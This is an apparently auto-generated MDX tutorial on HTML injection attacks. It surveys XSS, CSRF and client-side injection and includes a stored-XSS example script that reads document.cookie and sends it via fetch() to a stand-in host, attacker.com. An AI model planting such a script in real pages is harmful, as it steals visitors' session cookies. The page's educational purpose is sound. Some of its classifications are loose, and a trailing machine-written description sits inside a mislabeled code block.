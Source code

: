 ```yaml
---
title: HTML Injection Attacks
description: Learn about different types of HTML injection attacks and how to detect and exploit vulnerabilities.
---
```


# HTML Injection Attacks

HTML injection attacks are a common form of web security vulnerability where an attacker injects malicious HTML or JavaScript code into a web page. These attacks can lead to various consequences, including data theft, unauthorized access, and website defacement. In this section, we'll explore different types of HTML injection attacks, techniques for detecting and exploiting vulnerabilities, and real-world examples.

## Types of HTML Injection Attacks

There are several types of HTML injection attacks, including:

1. **Cross-Site Scripting (XSS):** XSS attacks involve injecting malicious scripts into web pages viewed by other users. There are three main types of XSS attacks: stored XSS, reflected XSS, and DOM-based XSS.

2. **Cross-Site Request Forgery (CSRF):** CSRF attacks exploit the trust that a website has in a user's browser to perform unauthorized actions on behalf of the user.

3. **HTML Injection (Client-Side):** In this type of attack, the attacker injects HTML or JavaScript code into input fields or other user-controlled areas of a web page to manipulate its behavior.

## Techniques for Detecting and Exploiting HTML Injection Vulnerabilities

Detecting and exploiting HTML injection vulnerabilities require a thorough understanding of web application security principles and testing techniques. Some common techniques include:

- **Input Validation:** Properly validating and sanitizing user input to prevent injection attacks.

- **Black Box Testing:** Using tools and techniques to analyze a web application's behavior from an external perspective, looking for vulnerabilities.

- **White Box Testing:** Analyzing the source code and internal workings of a web application to identify potential vulnerabilities.

## Real-World Examples and Case Studies

Let's look at a real-world example of an HTML injection attack:

### Example

Consider a web application that allows users to post comments on a forum. The application fails to properly sanitize user input, allowing attackers to inject malicious HTML code into comments.

```html
<!-- Malicious HTML code injected by attacker -->
<script>
  // Malicious script to steal user cookies
  var cookies = document.cookie;
  // Send stolen cookies to attacker-controlled server
  fetch("https://attacker.com/steal_cookies?data=" + encodeURIComponent(cookies));
</script>
```
When other users view the comments section, the injected script will execute in their browsers, stealing their cookies and sending them to the attacker's server. This demonstrates the impact of HTML injection vulnerabilities in real-world scenarios.

Understanding the different types of HTML injection attacks, techniques for detection, and real-world examples is essential for web developers and security professionals to protect against these vulnerabilities effectively.

```css

This MDX code explains HTML injection attacks, including the types of attacks (such as XSS, CSRF, and client-side HTML injection), techniques for detecting and exploiting vulnerabilities, and real-world examples. An example of HTML injection is provided to illustrate how attackers can exploit vulnerabilities in web applications.
```
